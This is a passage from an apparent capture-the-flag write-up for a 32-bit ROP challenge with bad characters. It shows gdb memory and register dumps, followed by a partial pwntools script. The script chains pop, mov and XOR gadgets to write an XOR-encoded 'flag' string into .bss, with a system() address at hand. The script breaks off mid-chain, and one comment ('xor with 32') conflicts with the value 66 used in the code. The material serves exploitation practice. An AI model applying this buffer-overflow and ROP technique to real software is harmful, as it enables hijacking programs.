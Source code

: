 ```
Continuing.

Breakpoint 1, 0x08048890 in usefulGadgets ()
(gdb) c
Continuing.

Breakpoint 1, 0x08048890 in usefulGadgets ()
(gdb) nexti
0x08048892 in usefulGadgets ()
(gdb) x/s 0x0804a040
0x804a040 <stderr@@GLIBC_2.0>:  "\254\252\247\255"
(gdb)
```
Hmm, it looks like that didn't work. I checked what the registers were so I can hopefully see what went wrong.
```
(gdb) i r
eax            0x0      0
ecx            0xeb     235
edx            0x804b158        134525272
ebx            0x804a043        134520899
esp            0xffffd30c       0xffffd30c
ebp            0x41414141       0x41414141
esi            0x464c4147       1179402567
edi            0x804a040        134520896
eip            0x8048892        0x8048892 <usefulGadgets+2>
eflags         0x282    [ SF IF ]
cs             0x23     35
ss             0x2b     43
ds             0x2b     43
es             0x2b     43
fs             0x0      0
gs             0x63     99
(gdb)
```
So it must have been a wrong value in `cl`, which is the lower bytes of `ecx`.
I need to see where this `235` comes from. And after that I realised that the space character is a bad character. Good thing I tried. So let's just xor the string with 66 which is 'B'. If I xor each character of 'flag' with 66 I get '$.#%'. So let's try that first.
```python
from pwn import *

bss_addr = 0x0804a040
xor = p32(0x08048890) # xor BYTE PTR [ebx],cl; ret
mov = p32(0x08048893) # mov DWORD PTR [edi],esi; ret
pop_ei = p32(0x08048899) # pop esi; pop edi; ret
pop_ex = p32(0x08048896) # pop ebx; pop ecx; ret
system = p32(0x80484e0)

# write 'FLAG' to bss_addr
payload = 'A'*44 # padding
payload += pop_ei
payload += '$.#%' # flag xor
payload += p32(bss_addr)
payload += mov

# xor 'FLAG' with 32 to get 'flag'
payload += pop_ex
payload += p32(bss_addr)
payload += p32(66)
payload += xor
payload += pop_ex
payload += p32(bss_addr+1)
payload += p32(66)
```